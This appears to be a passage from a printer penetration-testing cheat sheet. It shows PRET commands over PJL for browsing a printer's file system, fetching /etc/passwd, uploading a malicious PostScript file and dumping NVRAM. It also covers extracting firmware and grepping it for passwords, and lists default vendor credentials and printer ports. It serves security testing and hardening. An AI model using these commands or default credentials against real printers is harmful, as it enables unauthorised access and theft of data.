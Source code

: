### File System Access
```bash
# Using PRET to access printer file system
python pret.py target_ip pjl

# Common commands
ls /                  # List root directory
get /etc/passwd       # Try to get system files
put malicious.ps      # Upload malicious PostScript
```

### Memory Dump Analysis
```bash
# Dump printer memory using PRET
python pret.py target_ip pjl
nvram dump           # Dump non-volatile memory
```

### Firmware Analysis
```bash
# Download firmware if accessible
get firmware.bin

# Analyze with binwalk
binwalk firmware.bin
binwalk -e firmware.bin

# Look for hardcoded credentials, certificates, etc.
strings firmware.bin | grep -i password
strings firmware.bin | grep -i admin
```

## Common Printer Vulnerabilities

### Default Credentials
```
HP: admin/admin, admin/(blank)
Canon: admin/canon, root/admin
Xerox: admin/1111, admin/admin
Brother: admin/access, user/user
Ricoh: admin/admin, supervisor/supervisor
Kyocera: admin/admin, 2500/2500
```

### Common Ports and Services
```
Port 9100: Raw printing (JetDirect)
Port 515: Line Printer Daemon (LPD)
Port 631: Internet Printing Protocol (IPP)
Port 161: SNMP
Port 80/443: Web management interface
Port 21: FTP (some printers)
Port 23: Telnet (older printers)
```
